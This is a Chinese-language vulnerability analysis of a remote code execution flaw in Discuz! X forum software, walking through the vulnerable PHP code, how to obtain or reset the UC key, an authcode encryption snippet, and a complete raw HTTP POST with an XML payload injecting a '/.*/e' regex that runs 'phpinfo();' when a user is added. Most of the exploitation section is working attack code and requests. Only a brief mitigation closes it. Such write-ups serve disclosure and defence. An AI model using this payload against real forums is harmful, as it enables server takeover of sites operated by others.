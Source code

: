 # Discuz! X系列远程代码执行漏洞分析

0x00 漏洞概述
=========

* * *

上周有一个朋友问我有没有办法在知道uc的appkey的情况下getshell，刚好我在原来看discuz代码时曾经有过几个相关的想法，但是一直没有仔细去看，接着这个机会去看了下，果然有个很好玩的代码执行漏洞。

0x01 漏洞根源
=========

* * *

这个问题的根源在于api/uc.php文件中的updatebadwords方法，代码如下：

```
function updatebadwords($get, $post) {
        global $_G;

        if(!API_UPDATEBADWORDS) {
            return API_RETURN_FORBIDDEN;
        }

        $data = array();
        if(is_array($post)) {
            foreach($post as $k => $v) {
                $data['findpattern'][$k] = $v['findpattern'];
                $data['replace'][$k] = $v['replacement'];
            }
        }
        $cachefile = DISCUZ_ROOT.'./uc_client/data/cache/badwords.php';
        $fp = fopen($cachefile, 'w');
        $s = "<?php\r\n";
        $s .= '$_CACHE[\'badwords\'] = '.var_export($data, TRUE).";\r\n";
        fwrite($fp, $s);
        fclose($fp);

        return API_RETURN_SUCCEED;
    }

```

方法参数中的`$get`和`$post`就是用户所传入的内容，从上面代码我们可以看出在解析`$post`内容之后，将其写入到名为`badwords`的缓存中。这里代码使用了`var_export`来避免用户传递单引号来封闭之前语句，注入php代码。

但是这里有两个关键词让我眼前一亮“`findpattern`”和“`replacement`”，也就是说这个缓存内容是会被作为执行的。那么如果我向findpattern中传入带有e参数的正则表达式，不就可以实现任意代码执行了吗？

0x02 漏洞触发
=========

* * *

全局代码搜了下`badwords`，用的地方比较少，主要集中在uc的pm和user模块中。这里我用user来举例，在`uc_client/model/user.php`文件中有一个`check_usernamecensor`方法，来校验用户名中是否有badwords，如果有的话就将他替换掉，代码如下：

```
function check_usernamecensor($username) {
    $_CACHE['badwords'] = $this->base->cache('badwords');
    $censorusername = $this->base->get_setting('censorusername');
    $censorusername = $censorusername['censorusername'];
    $censorexp = '/^('.str_replace(array('\\*', "\r\n", ' '), array('.*', '|', ''), preg_quote(($censorusername = trim($censorusername)), '/')).')$/i';
    $usernamereplaced = isset($_CACHE['badwords']['findpattern']) && !empty($_CACHE['badwords']['findpattern']) ? @preg_replace($_CACHE['badwords']['findpattern'], $_CACHE['badwords']['replace'], $username) : $username;
    if(($usernamereplaced != $username) || ($censorusername && preg_match($censorexp, $username))) {
        return FALSE;
    } else {
        return TRUE;
    }
}

```

可以看到代码中使用了preg_replace，那么如果我们的正则表达式写成“/.*/e"，就可以在使用这个方法的地方进行任意代码执行了。而这个方法在disucz中，只要是添加或者修改用户名的地方都会用到。

0x03 漏洞利用
=========

* * *

首先我们们访问`api/uc.php`（居然可以直接访问，好开心），之后我们会发现uc处理机制中比较讨厌的环节——用户传递的参数需要经过`UC_KEY`加密：

```
if(!defined('IN_UC')) {
    require_once '../source/class/class_core.php';

    $discuz = C::app();
    $discuz->init();

    require DISCUZ_ROOT.'./config/config_ucenter.php';

    $get = $post = array();

    $code = @$_GET['code'];
    parse_str(authcode($code, 'DECODE', UC_KEY), $get);

```

所以这里需要有个前提，需要知道UC_KEY或者可以操控UC_KEY。那么问题来了，我们要怎么达到这个前提呢？

我们在后台中站长`->UCenter`设置中发现有“`UCenter 通信密钥`”这个字段，这是用于操控discuz和uc连接的app key，而非高级的uc_server key，不过对于我们getshell来说足够了。在这里修改为任意值，这样我们就获取到了加密用的key值了。

![enter image description here](http://drops.javaweb.org/uploads/images/310b329b0907e1fb59c1e82534f02a751a563f4b.jpg)

从下图我们可以看到，配置文件已经被修改了:

![enter image description here](http://drops.javaweb.org/uploads/images/8bfc0fd80506345d406dbfb5f63a8c64bc112a5b.jpg)

然后我们在自己搭建的discuz的`api/uc.php`文件中添加两行代码，来加密get请求所需要的内容：

```
$a = 'time='.time().'&action=updatebadwords';
   $code = authcode($a, 'ENCODE', 'tang3');
   echo $code;exit;

```

这样我们就可以获取到加密后的code值了！

![enter image description here](http://drops.javaweb.org/uploads/images/27117932d6bcf628d8bc6fc417d2a61c34a51de8.jpg)

然后用post方法向api/uc.php发送带有正则表达式信息的xml数据包，请求头中有两个地方需要注意，一个是formhash，一个是刚才获取的code需要进行一次url编码，否则解密会出现问题。我使用的数据包如下图所示：

```
POST /discuzx3.220150602/api/uc.php?formhash=e6d7c425&code=38f8nhcm4VRgdUvoEUoEs/OpuXNJDgh0Qfep%2bT52HDEyTpHnR4PQ80%2be%2bNCyOWI0DMrXizYwbGFcM/J0Y3a8Zc/N HTTP/1.1
Host: 192.168.188.144
Proxy-Connection: keep-alive
Content-Length: 178
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Origin: http://192.168.188.144
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2415.0 Safari/537.36
Content-Type: text/xml
Referer: http://192.168.188.144/discuzx3.220150602/admin.php?action=setting&operation=uc
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Cookie: FPDO_2132_saltkey=Z777zGG4; FPDO_2132_lastvisit=1432691505; FPDO_2132_ulastactivity=5830S8vsYWw6CpVTPpdtOgw6cPIZugHKtMQidjBgfdqDGbQJfSmj; so6a_2132_saltkey=JjZJ2klz; so6a_2132_lastvisit=1433227409; so6a_2132_nofavfid=1; so6a_2132_forum_lastvisit=D_2_1433233630; so6a_2132_visitedfid=2; so6a_2132_editormode_e=1; so6a_2132_smile=1D1; so6a_2132_lastcheckfeed=1%7C1433239071; XDEBUG_SESSION=PHPSTORM; so6a_2132_ulastactivity=5238LLJuvhc%2FhKaXEaIzRYm5hbbEAlOy3RL8Lc92aDETkVQJidZY; so6a_2132_auth=96c9HcEpd8OxPZh6GE5stu4Uov%2BUncVwxWbetMvF%2BFZLNuEVj8VoiFyDMkWkXdQ81eg%2F6522CLnsHbkzv%2Fdu; so6a_2132_creditnotice=0D0D2D0D0D0D0D0D0D1; so6a_2132_creditbase=0D0D10D0D0D0D0D0D0; so6a_2132_creditrule=%E6%AF%8F%E5%A4%A9%E7%99%BB%E5%BD%95; so6a_2132_checkupgrade=1; so6a_2132_lastact=1433476664%09admin.php%09; so6a_2132_sid=LE2xb1

<?xml version="1.0" encoding="ISO-8859-1"?>
<root>
    <item id="balabala">
        <item id="findpattern">/.*/e</item>
        <item id="replacement">phpinfo();</item>
    </item>
</root>

```

发送后可以发现`uc_client/data/cache`目录下的`badwords.php`内容变为了我们刚刚设定的正则表达式的样子：

![enter image description here](http://drops.javaweb.org/uploads/images/1a1ddf72700bc0e90c2705cdd231383e12313062.jpg)

之后利用方法就有很多种了，可以通过增加一个用户来实现代码执行，也可以通过发消息的方式来触发，这里我以添加一个用户为例。

![enter image description here](http://drops.javaweb.org/uploads/images/41d4dd3a19c94abd5961c909023b0276a7b94334.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/be960bd2045be25eb155520a1dfbace446fa8eb8.jpg)

0x04 漏洞总结
=========

* * *

### 漏洞小结

1.影响范围个人评价为“高”，Discuz! X系列cms在国内使用范围极广，几乎所有中小型论坛都是用它搭建的。

2.危害性个人评价为“高”，这个漏洞不只是单纯的后台代码执行，在uc_app key泄露的情况下也是可以利用的，很多转账对于uc_app key重视程度不是很大，所以相对来说危害性还是非常高的。

### 防护方案

限制用户提交正则表达式的内容，允许提交正则表达式就可以了，就不要让用户提交正则参数了吧。而且纯粹的使用正则表达式替换字符串，str_replace不可以吗？